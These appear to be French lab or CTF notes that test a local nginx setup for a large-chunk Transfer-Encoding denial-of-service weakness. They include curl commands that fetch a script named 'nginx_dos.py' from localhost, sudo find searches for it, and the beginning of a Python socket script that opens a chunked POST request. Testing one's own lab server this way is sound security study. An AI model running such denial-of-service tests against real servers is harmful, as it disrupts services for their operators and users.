 2. Tenter de télécharger le script annoncé
curl -sS -D - http://127.0.0.1:8080/evil/nginx_dos.py -o /tmp/nginx_dos.py || true

3. Chercher dossiers 'evil' et fichiers contenant 'nginx' et 'dos' dans /var/www, /opt, /srv, /home
sudo find /var/www /var/www/html /usr/share /opt /srv /home -type d -iname 'evil' 2>/dev/null || true
sudo find /var/www /var/www/html /usr/share /opt /srv /home -type f -iname '*nginx*dos*.py' 2>/dev/null || true

## Conclusion en théorie (attendu)
curl -I http://127.0.0.1:8080/ doit renvoyer un en-tête (200/302/404).
curl -Ik https://127.0.0.1:8443/ indique si HTTPS écoute (certificat possible, -k ignore validation).
Si curl télécharge /evil/nginx_dos.py il sera sauvegardé dans /tmp/nginx_dos.py et on l'examinera ensuite.
Si find retourne des dossiers ou fichiers, tu auras le chemin exact pour exécuter ou lire le script.
Si rien n'apparaît on créera localement un petit script d'attaque contrôlée pour tester le comportement chunked (Low).

# Étape 4 : Tester localement si le serveur accepte une requête Transfer-Encoding: chunked avec une taille de chunk déclarée très grande mais sans envoyer les données. Si le serveur bloque en attente des données il est vulnérable au DoS large-chunk.

## Sous-étapes :
1. 
nano /tmp/test_chunk.py
2. 
#!/usr/bin/env python3
import socket, time

HOST = "127.0.0.1"
PORT = 8081  # adapte ici si besoin

print(f"Connexion à {HOST}:{PORT} ...")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(5)
s.connect((HOST, PORT))

req = (
    "POST / HTTP/1.1\r\n"
    f"Host: {HOST}:{PORT}\r\n"
    "User-Agent: test-chunk\r\n"
    "Transfer-Encoding: chunked\r\n"
    "Connection: close\r\n"
    "\r\n"
)
s.sendall(req.encode())
